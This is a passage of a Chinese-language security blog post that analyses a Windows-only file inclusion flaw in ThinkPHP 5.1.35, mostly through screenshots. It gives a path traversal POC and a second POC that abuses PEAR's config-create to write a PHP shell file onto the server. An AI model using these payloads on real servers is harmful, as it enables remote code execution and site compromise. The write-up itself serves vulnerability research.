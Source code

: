   
![](https://mmbiz.qpic.cn/mmbiz_png/UhkxNXNt9yaZW6O66FubWOQkMS8PxVzniaK8q0STCm0uZ7S3BG6uicFIrEaSfb7NRGDqlB9cTFXYWQshFYtG4iaNg/640?wx_fmt=png "")  
  
  
也就是看文件是否存在，再去loadFile方法，  
      
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UhkxNXNt9yaZW6O66FubWOQkMS8PxVzn90ibWEc2ornDAicFQRR546sTzQvz693C7aGMT0yoSPbBrbx43hqAfhoQ/640?wx_fmt=png "")  
  
  
查看扩展名是否是php，然后直接包含,为什么linux不能利用是因为linux不支持..\  
## 1.2: 漏洞利用    
  
  
Version: thinkphp5.1.35  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UhkxNXNt9yaZW6O66FubWOQkMS8PxVznkR40YzZItcg0II8FKNq4vshtPVz25cEHYHBsRV9DdQv1W34QyeqibhQ/640?wx_fmt=png "")  
  
  
  
  
thinkphp目录 D:\phpStudy\WWW\thinkphp5\public，在D盘根目录创建一个文件夹，下面存放1.php，            内容phpinfo();            

            POC: index.php?s=..\..\..\..\thinkphp5.1/xinyi/xinyi              
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UhkxNXNt9yaZW6O66FubWOQkMS8PxVznickvgaicCxzT94esFv3ZsgShnSdSqAdUwiaTTvnyt2YKpX1uk28U91wTw/640?wx_fmt=png "")  
  
  
      
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UhkxNXNt9yaZW6O66FubWOQkMS8PxVznedibUe5ibcbhdPibExtBWNtDZWtIpqicNTX2qV6JKx22hQop6sk21jPicFQ/640?wx_fmt=png "")  
  
  
## 1.3: 命令执行(pear写shell)    
  
  
POC:            /index.php?s=..\..\..\Extensions\php\php7.3.4nts\pear\&+config-create+/+1.php              
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UhkxNXNt9yaZW6O66FubWOQkMS8PxVznJPbWQtrldZdibEZoHhX2vbp2B3WVuvzKbgxL3VnCvYvCpgBEVEz05NQ/640?wx_fmt=png "")  
  
  
      
  
  
微信公众号用不习惯格式可能会有部分错误，公众号回复: think5.1  
  
(pdf)  
  
